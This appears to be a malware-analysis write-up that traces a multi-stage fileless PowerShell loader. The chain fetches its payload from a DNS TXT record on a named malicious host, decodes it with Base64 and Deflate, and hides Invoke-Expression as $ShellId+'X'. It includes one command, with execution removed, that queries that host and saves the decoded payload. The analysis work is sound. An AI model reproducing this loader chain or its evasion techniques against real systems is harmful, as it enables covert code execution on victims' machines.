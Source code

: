 ![image](https://github.com/user-attachments/assets/6806c09b-fba7-4ac3-ac19-3616812f414e)

This PowerShell script is designed to execute an obfuscated command by decoding a Base64 string and running it with elevated privileges. The encoded data is first decoded into a readable UTF-8 string, which likely contains another PowerShell command. The script then invokes the `Shell.Application` COM object to execute the decoded command with administrative rights, bypassing execution policy restrictions. This technique is used in fileless malware to evade detection while delivering a payload or performing system modifications.

There is an encoded string in base64 text, which we can decode:

![image](https://github.com/user-attachments/assets/0d1763c0-a914-48e4-843c-434aadb88dee)

This PowerShell command retrieves a malicious payload by resolving the TXT record of `5gmlw.pyrchdata.com`, extracting the encoded content, and decoding it using Base64. The decoded data is then converted into a readable UTF-8 string and executed via `Invoke-Expression (iex)`, allowing remote code execution without directly downloading a file. This technique is used in fileless malware leveraging DNS queries to evade traditional security defenses and avoid detection by antivirus software.

![image](https://github.com/user-attachments/assets/955b9aca-3e34-4a82-9117-d5a6f9fb1066)

So this is where we can see the output of the TXT record containing a base64 encoded payload to be decoded in the malware, in a next step.

We can use PowerShell in our Windows host safely by removing the IEX piece to run and output the results to a text file:
```powershell
echo ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((Resolve-DnsName -Name 5gmlw.pyrchdata.com -Type TXT).Strings -join ''))) > payload.txt
```

This gives us the payload:

![image](https://github.com/user-attachments/assets/65b71411-2dd8-430f-a0ab-31cd263cdc33)

This PowerShell script is a **fileless malware loader** that decodes and decompresses a hidden payload stored as a Base64-encoded, Deflate-compressed string. It reconstructs the original PowerShell code in memory, then executes it dynamically using `Invoke-Expression` (`iex`), without writing anything to disk. This technique is commonly used to evade antivirus and detection tools, as the actual malicious logic remains obfuscated and is only revealed at runtime. The purpose of the script is likely to download or execute a second-stage payload, establish persistence, or connect to a command-and-control (C2) server.

![image](https://github.com/user-attachments/assets/1a40377d-c9da-441b-a125-a3ce9469f9fa)

By default, when calling `$ShellId` in PowerShell, it returns `Microsoft.PowerShell`, identifying the running shell environment. However, an obfuscation technique involves manipulating `$ShellId` by concatenating an additional `"X"` at the end—resulting in `Microsoft.PowerShellX`. This subtle transformation disguises the execution of `IEX` (Invoke-Expression) by indirectly constructing the command. Instead of explicitly calling `IEX`, attackers or CTF challenges use `$ShellId+'X'` to execute obfuscated scripts while bypassing simple string-based detection mechanisms. This technique leverages PowerShell's flexibility in string operations to evade traditional security measures.

So in order to run this command we need to remove the invoke expression:
